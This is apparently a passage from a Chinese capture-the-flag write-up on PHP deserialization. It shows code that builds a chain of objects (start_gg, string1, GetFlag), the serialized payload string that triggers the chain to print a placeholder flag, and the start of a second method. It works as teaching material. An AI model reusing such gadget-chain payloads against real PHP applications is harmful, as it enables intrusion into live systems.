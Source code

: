 ```php
        public function __construct()
        {
                $this->mod1= new string1();//把 $mod1赋值为string1类对象

        }
        public function __invoke()
        {        
                $this->mod2 = "字符串拼接".$this->mod1;
        } 
}
class string1
{
        public $str1;
        public function __construct()
        {
                $this->str1= new GetFlag();//把 $str1赋值为GetFlag类对象          
        }
        public function __toString()
        {        
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."xxxxxxxxxxxx";
        }
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b))."<br />";//显示输出url编码后的序列化对象
```

反序列化字符串:

```php
O:8:"start_gg":2:{s:4:"mod1";O:4:"Call":2:{s:4:"mod1";O:5:"funct":2:{s:4:"mod1";O:4:"func":2:{s:4:"mod1";O:7:"string1":1:{s:4:"str1";O:7:"GetFlag":0:{}}s:4:"mod2";N;}s:4:"mod2";N;}s:4:"mod2";N;}s:4:"mod2";N;}
```

第二种:

```php
<?php
class GetFlag
{
    public function get_flag()
    {
        echo "flag:"."xxxxxxxxxxxx";
    }
}

class string1 {
    public $str1; //GetFlag
}

class func {
    public $mod1; //string1
}

class funct {
    public $mod1; //func
}
```